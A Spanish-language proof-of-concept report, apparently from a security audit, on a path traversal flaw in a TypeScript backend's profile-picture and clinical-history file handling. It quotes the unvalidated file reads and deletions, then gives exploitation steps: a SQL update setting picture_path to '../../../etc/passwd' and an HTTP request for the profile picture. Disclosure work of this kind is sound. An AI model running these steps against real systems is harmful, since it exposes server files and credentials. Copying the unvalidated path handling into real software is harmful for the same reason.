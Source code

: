 # Prueba de Concepto - Path Traversal

## Vulnerabilidad encontrada
La vulnerabilidad de Path Traversal que encontramos se halla en el método `getProfilePicture` del archivo `fileService.ts`. El problema radica en que el código utiliza directamente el valor del campo `picture_path` almacenado en la base de datos para leer archivos del sistema, sin realizar validación o sanitización alguna. Ninguna de las funciones donde esto ocurre verifican que el archivo esté dentro del directorio permitido, tampoco tienen medidas para prevenir secuencias de directorio padre (`../`).

**Archivo vulnerable:** `services/backend/src/services/fileService.ts:39`
```typescript
const filePath = user.picture_path;  // No hay validación, se usa la ruta como viene de la BD
const stream = fs.createReadStream(filePath);  // Esto puede abrir cualquier archivo usando por ejemplo una ruta del propio sistema
```

**Archivo vulnerable:** `services/backend/src/services/fileService.ts:72`
```typescript
try { await unlink(path.resolve(user.picture_path)); } catch { /*ignore*/ }  // Lo mismo, se hace unlink y un path.resolve sin validar la ruta que viene de la BD
```

**Archivo vulnerable:** `services/backend/src/services/clinicalHistoryService.ts:133`
```typescript
try { await unlink(path.resolve(f.path)); } catch {}  // Al igual que en el anterior, unlink y path.resolve sin validar lo que viene
```

## Cómo explotar (un ejemplo con la ruta /etc/passwd)

### Paso 1: Identificar el usuario objetivo
- Obtener el ID de un usuario existente en el sistema

### Paso 2: Modificar el campo picture_path en la base de datos
Usar SQL Injection u otro método para ejecutar:
```sql
UPDATE users 
SET picture_path = '../../../etc/passwd' 
WHERE id = 'USER_ID_AQUÍ';
```

### Paso 3: Hacer petición para obtener la foto de perfil
```http
GET /api/users/profile-picture HTTP/1.1
Host: localhost:3000
Authorization: Bearer TOKEN_DEL_USUARIO
```

### Paso 4: El servidor devolverá el contenido del archivo /etc/passwd

## Resultado esperado
- El payload de path traversal inyectado (p. ej. /etc/passwd o ../../../../etc/passwd) se utiliza cuando la aplicación lee user.picture_path (o f.path) y la respuesta HTTP contiene el contenido del archivo apuntado
- Se puede extraer el contenido de cualquier archivo accesible por el proceso del servidor (configuraciones, .env, claves, backups, /etc/passwd, etc.)
- Los errores o mensajes devueltos por la aplicación pueden revelar rutas, permisos y estructura del filesystem (por ejemplo, rutas absolutas, nombres de directorios, permisos denegados).

## Impacto
- Acceso no autorizado a datos sensibles almacenados en el servidor: archivos de configuración, variables de entorno, logs, backups, etc.
- Extracción de credenciales y llaves (API keys, claves SSH, credenciales de BD) que permiten ataques posteriores contra la infraestructura 
- Bypass de controles de acceso y exposición de recursos privados
